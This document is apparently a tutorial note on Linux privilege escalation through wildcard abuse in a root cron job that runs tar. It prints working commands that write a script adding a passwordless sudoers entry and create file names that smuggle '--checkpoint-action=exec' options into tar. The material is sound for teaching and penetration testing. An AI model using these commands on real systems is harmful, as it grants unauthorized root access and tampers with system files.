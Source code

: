 
## Wildcard Abuse

A wildcard character can be used as a replacement for other characters and are interpreted by the shell before other actions. Examples of wild cards include:

| **Character** | **Significance**                                                                                                                                      |
| ------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------- |
| `*`           | An asterisk that can match any number of characters in a file name                                                                                    |
| `?`           | Matches a single character.                                                                                                                           |
| `[ ]`         | Brackets enclose characters and can match any single one at the defined position.                                                                     |
| `~`           | A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory. |
| `-`              | A hyphen within brackets will denote a range of characters.                                                                                                                                                      |

#### Example: `tar` command - Look at the man page
```Shell
man tar

<SNIP>
Informative output
       --checkpoint[=N]
              Display progress messages every Nth record (default 10).

       --checkpoint-action=ACTION
              Run ACTION on each checkpoint.
```
The `--checkpoint-action` option permits an `EXEC` action to be executed when a checkpoint is reached (i.e., run an arbitrary operating system command once the tar command executes.) By creating files with these names, when the wildcard is specified, `--checkpoint=1` and `--checkpoint-action=exec=sh root.sh` is passed to `tar` as command-line options

#### Example: a cron job, which is set up to back up the `/root` directory's contents and create a compressed archive in `/tmp`
```txt
#
#
mh dom mon dow command
*/01 * * * * cd /tmp && tar -zcf /tmp/backup.tar.gz *
```

#### Leverage the wild card in the cron job to write out the necessary commands as file names
```Shell
echo 'echo "cliff.moore ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```

#### Check and see that the necessary files were created
```Shell
ls -la
```
